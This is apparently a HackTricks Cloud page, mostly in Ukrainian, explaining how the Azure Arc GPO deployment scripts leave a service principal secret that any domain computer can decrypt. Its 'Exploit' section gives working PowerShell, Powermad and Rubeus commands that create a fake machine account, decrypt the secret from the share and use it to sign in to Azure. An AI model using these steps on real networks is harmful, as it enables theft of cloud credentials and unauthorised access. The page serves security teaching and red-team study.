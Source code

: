 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arc дозволяє інтеграцію нових внутрішніх серверів (приєднаних до домену) в Azure Arc за допомогою методу об'єкта групової політики. Для цього Microsoft надає набір інструментів для розгортання, необхідний для ініціювання процедури приєднання. У файлі ArcEnableServerGroupPolicy.zip можна знайти такі скрипти: DeployGPO.ps1, EnableAzureArc.ps1 та AzureArcDeployment.psm1.

При виконанні скрипт DeployGPO.ps1 виконує такі дії:

1. Створює GPO для приєднання серверів Azure Arc у локальному домені.
2. Копіює скрипт приєднання EnableAzureArc.ps1 на вказану мережеву папку, створену для процесу приєднання, яка також містить пакет установника Windows.

При запуску цього скрипта адміністраторам систем потрібно надати два основні параметри: **ServicePrincipalId** та **ServicePrincipalClientSecret**. Крім того, потрібні інші параметри, такі як домен, FQDN сервера, що хостить загальний доступ, та ім'я загального доступу. Додаткові деталі, такі як ідентифікатор орендаря, група ресурсів та інша необхідна інформація також повинні бути надані скрипту.

Зашифрований секрет генерується в каталозі AzureArcDeploy на вказаному загальному доступі за допомогою шифрування DPAPI-NG. Зашифрований секрет зберігається у файлі з назвою encryptedServicePrincipalSecret. Докази цього можна знайти у скрипті DeployGPO.ps1, де шифрування виконується шляхом виклику ProtectBase64 з $descriptor та $ServicePrincipalSecret як вхідними даними. Дескриптор складається з SID груп комп'ютерів домену та контролерів домену, що забезпечує, що ServicePrincipalSecret може бути розшифровано лише групами безпеки контролерів домену та комп'ютерів домену, як зазначено в коментарях до скрипту.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Ми маємо наступні умови:

1. Ми успішно проникли в внутрішню мережу.
2. У нас є можливість створити або взяти під контроль обліковий запис комп'ютера в Active Directory.
3. Ми виявили мережевий ресурс, що містить каталог AzureArcDeploy.

Існує кілька методів отримання облікового запису машини в середовищі AD. Один з найпоширеніших - це експлуатація квоти облікових записів машин. Інший метод полягає в компрометації облікового запису машини через вразливі ACL або різні інші неправильні налаштування.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Якщо обліковий запис машини отримано, можна аутентифікуватися, використовуючи цей обліковий запис. Ми можемо або використовувати команду runas.exe з прапором netonly, або використовувати pass-the-ticket з Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Маючи TGT для нашого облікового запису комп'ютера, ми можемо використати наступний скрипт для розшифрування секрету службового принципала.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Альтернативно, ми можемо використовувати [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

На цьому етапі ми можемо зібрати залишкову інформацію, необхідну для підключення до Azure з файлу ArcInfo.json, який зберігається на тому ж мережевому загальному доступі, що й файл encryptedServicePrincipalSecret. Цей файл містить деталі, такі як: TenantId, servicePrincipalClientId, ResourceGroup та інше. З цією інформацією ми можемо використовувати Azure CLI для автентифікації як скомпрометований сервісний принципал.

## References

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
